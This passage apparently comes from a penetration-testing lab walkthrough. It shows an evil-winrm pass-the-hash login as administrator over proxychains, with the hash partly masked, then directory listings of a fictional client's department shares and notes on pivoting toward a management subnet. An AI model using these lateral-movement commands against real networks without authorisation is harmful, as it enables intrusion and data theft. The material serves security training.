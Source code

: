 ```shell-session
$ proxychains evil-winrm -i 172.16.8.3 -u administrator -H fd1f7e556xxxxxxxxxxxddbb6e6afa2

ProxyChains-3.1 (http://proxychains.sf.net)

<SNIP>

Evil-WinRM* PS C:\Users\Administrator\desktop> cd c:\

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK

*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/1/2022  11:34 AM                Department Shares
d-----        9/15/2018  12:12 AM                PerfLogs
d-r---       12/14/2020   6:43 PM                Program Files
d-----        9/15/2018  12:21 AM                Program Files (x86)
d-r---         6/1/2022  11:07 AM                Users
d-----         6/1/2022  11:10 AM                Windows
```

Let's go back to the `Department Shares` share and see what else we can find.

```powershell
*Evil-WinRM* PS C:\Department Shares> dir

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK


    Directory: C:\Department Shares


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/1/2022  11:34 AM                Accounting
d-----         6/1/2022  11:34 AM                Executives
d-----         6/1/2022  11:34 AM                Finance
d-----         6/1/2022  11:33 AM                HR
d-----         6/1/2022  11:33 AM                IT
d-----         6/1/2022  11:33 AM                Marketing
d-----         6/1/2022  11:33 AM                R&D
```

Depending on the client industry and business, there are various things we can go after to demonstrate impact. HR data such as salaries and bonuses should be well-protected, R\&D information could potentially hurt a company if it is leaked so they should have extra controls in place. It can be a good practice to not allow Domain Admins to have blanket access to all data, because if one account is compromised then everything will be. Some companies will have a separate site or non-domain joined file share or backup server to house sensitive data. In our case Inlanefreight has asked us to test if we can gain access to any hosts in the `172.16.9.0/23` subnet. This is their management network and houses sensitive servers that should be not directly accessible from hosts in the principal domain and gaining Domain Admin rights should not lead to immediate access.
